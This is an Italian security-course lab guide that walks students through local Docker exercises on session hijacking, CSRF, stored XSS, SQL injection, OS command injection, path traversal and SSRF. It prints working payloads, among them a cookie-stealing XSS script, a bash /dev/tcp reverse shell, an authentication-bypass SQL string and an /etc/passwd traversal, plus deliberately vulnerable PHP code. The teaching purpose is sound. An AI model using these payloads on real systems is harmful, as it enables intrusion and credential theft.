




Web Application Vulnerabilities
I seguenti esempi sono disponibile nella macchina virtuale nella cartella swsec-labs/web-security/, e nel repository online su https://github.com/swsec-book/swsec-labs.
Session Hijacking
Il seguente esempio mostra un caso di attacco di tipo session hijacking. Il programma è nella sotto-cartella swsec-labs/web-security/session-hijacking della macchina virtuale.
Se un utente subisce il furto dei suoi cookie, un attaccante può impersonarlo nell'accedere ad un sito web.

Per simulare l'attacco, avviate l'applicazione web vulnerabile.
$ cd session-hijacking
$ docker compose build
$ docker compose up -d
Aprite una prima finestra del browser, che avrà il ruolo di utente vittima.
- Visitate il sito http://localhost.
- Il sito web mostra, per comodità, il token di sessione (session ID) che è stato assegnato all'utente vittima, e che è stato salvato in un cookie.
- Fate il login con username
admine passwordadmin. Da questo momento, la sessione consente l'accesso ad una ipotetica pagina di amministrazione del sito.
Aprite una seconda finestra del browser in modalità incognito, che avrà il ruolo di attaccante. La modalità incognito permette di separare la sessione dell'utente vittima da quella dell'attaccante, in modo da simulare uno scenario realistico.
- Visitate il sito http://localhost.
- Aprite gli strumenti sviluppatore forniti dal browser, e ispezionate il contenuto del cookie
PHPSESSID. - Modificate il contenuto del cookie
PHPSESSID, effettuando un copia-incolla del token di sessione dalla finestra dell'utente vittima. Questa operazione simula il furto di cookie da parte dell'attaccante (ad esempio, tramite tecniche di information stealing). - Ricaricate la pagina. Da questo momento, anche la finestra dell'attaccante ha accesso alla pagina di amministrazione del sito.
Con la stessa applicazione dimostrativa, è anche possibile effettuare una variante dell'attacco, detta session fixation.
Aprite una prima finestra del browser in modalità incognito, che avrà il ruolo di attaccante, e una secondo finestra del browser che avrà il ruolo di utente vittima.
- Nel browser dell'attaccante, visitate il sito http://localhost.
- Prendete nota del session ID, per creare lo URL http://localhost?PHPSESSID=abcde, sostituendo il valore del session ID nello URL.
- Fate copia-incolla dello URL nella finestra dell'utente vittima per visitare il sito web. La variabile
PHPSESSIDnello URL forza la sessione dell'utente vittima ad usare lo stesso session ID che è stato creato dall'attaccante. Da questo momento, attaccante e vittima condividono lo stesso token. - Nella finestra dell'utente vittima, effettuate il login con username
admine passwordadmin. - Nella finestra dell'attaccante, ricaricate la pagina senza fare il login. L'attaccante avrà comunque accesso alla pagina di amministrazione del sito.
Per chiudere l'applicazione, utilizzate questo comando.
$ docker compose down
Cross-Site Request Forgery (CSRF)
Il seguente esempio mostra un caso di attacco di tipo CSRF, su una versione vulnerabile della applicazione web Elgg che simula un social network. L'esempio è tratto da https://seedsecuritylabs.org/.
Il programma è nella sotto-cartella swsec-labs/web-security/csrf-elgg (per gli utenti di sistemi x86) oppure swsec-labs/web-security/csrf-elgg-arm (per gli utenti di sistemi Apple).

In questo attacco, l'attaccante è rappresentato dall'utente Samy del social network, e la vittima è rappresentata dall'utente Alice. Inoltre, l'attaccante dispone di un ulteriore utente Charlie sul social network, ai fini di analizzare il funzionamento del sito.
In questo attacco, Samy induce Alice a visitare una pagina web malevola (ad esempio, tramite social engineering). La pagina malevola invierà una richiesta cross-site malevola al social network, impersonando l'utente Alice. A seguito della richiesta, Samy sarà stato aggiunto alla cerchia degli "amici" di Alice, ad insaputa di Alice.
Avviate la applicazione Elgg.
$ cd csrf-elgg
$ docker compose build
$ docker compose up -d
Aprite una prima finestra del browser, che avrà il ruolo di utente vittima.
- Visitate il sito http://www.seed-server.com.
- Effettuate il login con username
alicee passwordseedalice. - Visitate la pagina Friends del sito. Inizialmente, la lista degli amici di Alice è vuota.
- Lasciate la pagina aperta, senza effettuare il logout.
Aprite una seconda finestra del browser in modalità incognito, che avrà il ruolo di attaccante.
- Visitate il sito http://www.seed-server.com.
- Effettuate il login con username
charliee passwordseedcharlie. - Visitate la pagina Members del sito, e poi il profilo dell'utente Samy. Prendete nota dello URL collegato al tasto Add Friend. Lo URL è del tipo http://www.seed-server.com/action/friends/add?friend=42..., dove il valore 42 rappresenta l'utente Samy.
- All'interno della cartella del codice dell'esempio, nella sotto-cartella
attacker, modificateaddfriend.htmlcome segue. Modificare il valore 42 se necessario.
<script>
window.onload = function(){
// Create a <form> element
var p = document.createElement("form");
p.action = "http://www.seed-server.com/action/friends/add";
p.method = "get";
// The attack fills the form with the "friend" parameter
// The fields are hidden, the victim will not see them.
p.innerHTML = "<input type='hidden' name='friend' value='42'>";
// Append the form to the current page
document.body.appendChild(p);
// Submit the form
p.submit();
}
</script>
Nella finestra dell'utente vittima (la prima che avete aperto ossia, quella dell'utente Alice).
- Visitate il sito http://www.attacker32.com/ in una tab separata del browser.
- Aprite di nuovo http://www.seed-server.com. Non è necessario ripetere il login.
- Visitate di nuovo la pagina Friends del sito. Se l'attacco ha avuto successo, l'utente Samy appare nella lista degli amici di Alice.
Per chiudere l'applicazione, utilizzate i seguenti comandi.
$ docker compose down
$ docker container prune
$ docker network prune
Cross Site Scripting (XSS)
Il seguente esempio mostra un caso di attacco di tipo Stored XSS, su una versione vulnerabile della applicazione web Elgg che simula un social network. L'esempio è tratto da https://seedsecuritylabs.org/.
Il programma è nella sotto-cartella swsec-labs/web-security/xss-elgg (per gli utenti di sistemi x86) oppure swsec-labs/web-security/xss-elgg-arm (per gli utenti di sistemi Apple).
In questo esempio, l'utente Samy inserisce del codice Javascript nella sua biografia del social network. Quando l'utente Alice visita la biografia di Samy, il codice Javascript viene eseguito nel browser di Alice. Il codice può accedere ai cookie di Alice (consentendo ad esempio il furto di cookie), può effettuare richieste HTTP per conto di Alice, può tracciare gli eventi nel browser quando Alice interagisce con la pagina, e può modificare il contenuto della pagina visualizzato da Alice.
Avviate la applicazione Elgg.
$ cd xss-elgg
$ docker compose build
$ docker compose up -d
Aprite una prima finestra del browser in modalità incognito, che avrà il ruolo di attaccante.
- Visitate il sito http://www.seed-server.com.
- Effettuate il login con username
samye passwordseedsamy. - Visitate la pagina Edit profile.
- Vicino alla casella di testo intitolata About me, clickate sul link edit HTML. In questo modo, il testo inserito nella casella verrà inviato al server senza modifiche per la formattazione grafica.
- Inserite del codice Javascript nella casella di testo About me. Ad esempio, è possibile fare una prova inserendo il codice
<script>alert('XSS');</script>.


Aprite una seconda finestra del browser, che avrà il ruolo di utente vittima.
- Visitate il sito http://www.seed-server.com.
- Effettuate il login con username
alicee passwordseedalice. - Visitate la pagina Members del sito, e poi il profilo dell'utente Samy.
- Il codice Javascript sarà eseguito dal browser. Nel caso dell'esempio precedente, verrà visualizzato un popup con il messaggio XSS.
Per simulare il furto di cookie, è possibile sostituire il codice Javascript precedente con il codice seguente.
<script>
document.write('<img src=http://127.0.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
Per eseguire l'attacco:
- Avviate da un'altra finestra di terminale il tool netcat con il comando
nc -lknv 5555. Il tool rimane in ascolto di connessioni. - Nella finestra dell'utente Alice, ripetete le stesse operazioni precedenti.
- Il tool netcat riceverà una richiesta HTTP, contenente nello URL il contenuto dei cookie di Alice.
Per chiudere l'applicazione, utilizzate i seguenti comandi.
$ docker compose down
$ docker container prune
$ docker network prune
SQL injection
Il seguente esempio mostra un caso di attacco di tipo SQL Injection su una semplice applicazione web con un database, contenente i dati privati degli impiegati di una azienda. L'esempio è tratto da https://seedsecuritylabs.org/.
Il programma è nella sotto-cartella swsec-labs/web-security/sql-injection (per gli utenti di sistemi x86) oppure swsec-labs/web-security/sql-injection-arm (per gli utenti di sistemi Apple).
Per avviare la applicazione, usare i seguenti comandi.
$ cd sql-injection
$ docker compose build
$ docker compose up -d
Di seguito è riportata la struttura della tabella nel database, e il codice PHP con la query SQL vulnerabile all'attacco di SQL injection.
| Name | ID | Password | Salary | Birthday | SSN | Nickname | Address | PhoneNumber | |
|---|---|---|---|---|---|---|---|---|---|
| Admin | 99999 | seedadmin | 400000 | 3/5 | 43254314 | ||||
| Alice | 10000 | seedalice | 20000 | 9/20 | 10211002 | ||||
| Boby | 20000 | seedboby | 50000 | 4/20 | 10213352 | ||||
| Ryan | 30000 | seedryan | 90000 | 4/10 | 32193525 | ||||
| Samy | 40000 | seedsamy | 40000 | 1/11 | 32111111 | ||||
| Ted | 50000 | seedted | 110000 | 11/3 | 24343244 |
$input_uname = $_GET['username'];
$input_pwd = $_GET['password'];
$hashed_pwd = sha1($input_pwd);
$sql = "SELECT id, name, edit, salary, birth, ssn, address, email, nickname, password
FROM credential
WHERE name='$input_uname' and password='$hashed_pwd'";
$result = $conn->query($sql);
È possibile effettuare il login come amministratore, anche senza conoscerne la password, inserendo nel campo username del form di login la stringa Admin';# (includendo i caratteri speciali dopo la parola Admin). La stringa nel campo password è indifferente per l'attacco.
Per chiudere l'applicazione, utilizzate i seguenti comandi.
$ docker compose down
$ docker container prune
$ docker network prune
OS command injection
Questo programma di esempio mostra una vulnerabilità di OS Command Injection.
Il programma è disponibile nella sotto-cartella swsec-labs/web-security/os-injection della macchina virtuale.
Il programma contiene la seguente istruzione vulnerabile.
system("ping -c 3 ".$_GET['host'], $result_code);
Per avviare il programma, utilizzare i seguenti comandi.
cd os-injection
php -S localhost:8000
Si può sfruttare la vulnerabilità per creare una reverse shell.
- In una nuova finestra di terminale, lanciare il tool netcat in ascolto di connessioni, con il comando
nc -lv 12345. - Nel form della pagina web http://localhost:8000, inserire nel campo hostname del form la stringa
example.com; bash -c 'bash -i >/dev/tcp/127.0.0.1/12345 0<&1 2>&1'. Il secondo comando all'interno della stringa usa la shell bash per redirigere l'I/O della shell verso una connessione TCP.
Path traversal
Il seguente esempio mostra un caso di attacco di tipo path traversal su una semplice applicazione web in Python. L'applicazione mostra un elenco di utenti. Clickando sul nome di un utente, viene visitata una pagina al percorso indicato nel parametro dello URL.
Il programma è disponibile nella sotto-cartella swsec-labs/web-security/path-traversal della macchina virtuale.
Per eseguire l'applicazione:
$ python3 -m venv env
$ source env/bin/activate
$ pip3 install flask
$ pip3 install requests
$ export FLASK_RUN_PORT=8080
$ flask --app meetr.py run
È possibile innescare la vulnerabilità con il seguente comando.
$ curl -s "http://localhost:8080/profile?image=../../../../../../etc/passwd"
Se necessario, aggiungere ulteriori frammenti di percorso "../" nel parametro.
Server-Side Request Forgery (SSRF)
Il seguente esempio mostra un caso di attacco di tipo SSRF su una semplice applicazione web in Python. L'applicazione permette di caricare una immagine da un URL, da indicare in un form.
Il programma è disponibile nella sotto-cartella swsec-labs/web-security/ssrf della macchina virtuale.
Per eseguire l'applicazione:
$ python3 -m venv env
$ source env/bin/activate
$ pip3 install flask
$ pip3 install requests
$ export FLASK_RUN_PORT=8080
$ flask --app meetr.py run
È possibile innescare la vulnerabilità con i seguenti comandi (si genera una richiesta web verso example.org).
$ curl -s "http://localhost:8080/pfp?url=http%3A%2F%2Fexample.org"
$ curl -s "http://localhost:8080/profile.png"
...
<h1>Example Domain</h1>
<p>This domain is for use in illustrative examples in documents. You may use this
domain in literature without prior coordination or asking for permission.</p>
<p><a href="https://www.iana.org/domains/example">More information...</a></p>
...